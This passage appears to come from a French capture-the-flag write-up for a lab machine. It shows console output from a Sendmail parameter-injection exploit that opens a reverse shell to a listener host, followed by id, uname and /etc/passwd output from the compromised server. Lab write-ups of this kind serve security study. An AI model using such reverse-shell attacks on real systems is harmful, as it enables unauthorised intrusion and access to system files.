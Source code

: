 ```console
Reverese shell IP: 192.168.56.102
Reverese shell PORT: 1234

[*] Injecting Sendmail command parameters
(23) Failed writing body

[*] Sending the email to trigger the vuln

[*] Waiting for shell on 192.168.56.102 port 1234
listening on [any] 1234 ...
192.168.56.101: inverse host lookup failed: Unknown host
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 33524
bash: no job control in this shell

bash-3.2$ id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0

bash-3.2$ uname -a
Linux localhost.localdomain 2.6.23.1-42.fc8 #1 SMP Tue Oct 30 13:55:12 EDT 2007 i686 i686 i386 GNU/Linux

bash-3.2$ tail -n 8 /etc/passwd
patrick:x:500:500:Patrick Fair:/home/patrick:/bin/bash
jennifer:x:501:501:Jennifer Sea:/home/jennifer:/bin/bash
andy:x:502:502:Andrew Carp:/home/andy:/bin/bash
loren:x:503:503:Loren Felt:/home/loren:/bin/bash
amy:x:504:504:Amy Pendelton:/home/amy:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
webalizer:x:67:67:Webalizer:/var/www/usage:/sbin/nologin

bash-3.2$
```

Un shell a été obtenu sur le serveur ! Le « mail-exploit » se situe quant à lui dans le dossier Sent d'Amy.

![Affichage de l'image CTF5_Squirrel3.png](images/CTF5_Squirrel3.png)
